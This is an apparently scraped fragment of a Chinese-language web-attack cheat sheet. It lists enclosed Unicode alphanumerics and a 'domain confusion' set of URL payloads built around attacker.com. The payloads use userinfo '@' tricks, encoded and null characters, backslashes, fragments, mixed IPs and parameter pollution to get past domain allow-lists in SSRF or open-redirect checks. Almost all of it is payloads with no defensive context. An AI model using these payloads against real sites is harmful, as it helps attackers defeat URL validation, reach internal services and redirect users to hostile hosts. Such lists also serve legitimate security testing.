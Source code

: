 下面封闭的字母数字

```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾
⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗
⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰
⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ
Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ
ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```



#### 域混淆

利用不同的域名配合符号进行干扰从而突破限制

```
# 还尝试将 attacker.com 更改为 127.0.0.1 以尝试访问
http://{domain}@attacker.com
http://{domain}%6D@attacker.com
https://www.victim.com(\u2044)some(\u2044)path(\u2044)(\u0294)some=param(\uff03)hash@attacker.com
http://attacker.com#{domain}
http://{domain}.attacker.com
http://attacker.com/{domain}
http://attacker.com/?d={domain}
https://{domain}@attacker.com
https://attacker.com#{domain}
https://{domain}.attacker.com
https://attacker.com/{domain}
https://attacker.com/?d={domain}
http://{domain}@attacker.com
http://attacker.com#{domain}
http://{domain}.attacker.com
http://attacker.com/{domain}
http://attacker.com/?d={domain}
http://attacker.com%00{domain}
http://attacker.com?{domain}
http://attacker.com///{domain}
https://attacker.com%00{domain}
https://attacker.com%0A{domain}
https://attacker.com?{domain}
https://attacker.com///{domain}
https://attacker.com\{domain}/
https://attacker.com;https://{domain}
https://attacker.com\{domain}/
https://attacker.com\.{domain}
https://attacker.com/.{domain}
https://attacker.com\@@{domain}
https://attacker.com:\@@{domain}
https://attacker.com#\@{domain}
https://attacker.com\anything@{domain}/

# 在每个 IP 位置尝试将 1 个攻击者域和其他受害者域
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/

# 参数污染
next={domain}&next=attacker.com
```
